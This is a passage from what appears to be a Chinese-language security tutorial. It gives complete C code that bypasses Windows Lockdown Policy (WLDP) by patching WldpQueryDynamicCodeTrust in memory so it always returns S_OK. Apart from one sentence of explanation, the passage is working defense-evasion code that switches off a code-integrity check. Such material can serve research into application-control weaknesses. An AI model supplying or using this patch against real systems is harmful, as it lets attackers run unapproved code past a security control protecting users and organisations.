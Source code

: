 [![](https://xzfile.aliyuncs.com/media/upload/picture/20190605000021-db43bae6-86e1-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190605000021-db43bae6-86e1-1.png)

　绕过 WLDP 机制的方法（代码补丁方法 1）
------------------------

通过对该函数执行覆盖操作，使其始终返回 S_OK。

```
// fake function that always returns S_OK
static HRESULT WINAPI WldpQueryDynamicCodeTrustStub(
    HANDLE fileHandle,
    PVOID  baseImage,
    ULONG  ImageSize)
{
    return S_OK;
}

static VOID WldpQueryDynamicCodeTrustStubEnd(VOID) {}

static BOOL PatchWldp(VOID) {
    BOOL    patched = FALSE;
    HMODULE wldp;
    DWORD   len, op, t;
    LPVOID  cs;

    // load wldp
    wldp = LoadLibrary("wldp");

    if(wldp != NULL) {
      // resolve address of function to patch
      cs = GetProcAddress(wldp, "WldpQueryDynamicCodeTrust");

      if(cs != NULL) {
        // calculate length of stub
        len = (ULONG_PTR)WldpQueryDynamicCodeTrustStubEnd -
          (ULONG_PTR)WldpQueryDynamicCodeTrustStub;

        // make the memory writeable
        if(VirtualProtect(
          cs, len, PAGE_EXECUTE_READWRITE, &op))
        {
          // over write with stub
          memcpy(cs, &WldpQueryDynamicCodeTrustStub, len);

          patched = TRUE;

          // set back to original protection
          VirtualProtect(cs, len, op, &t);
        }
      }
    }
    return patched;
}
```
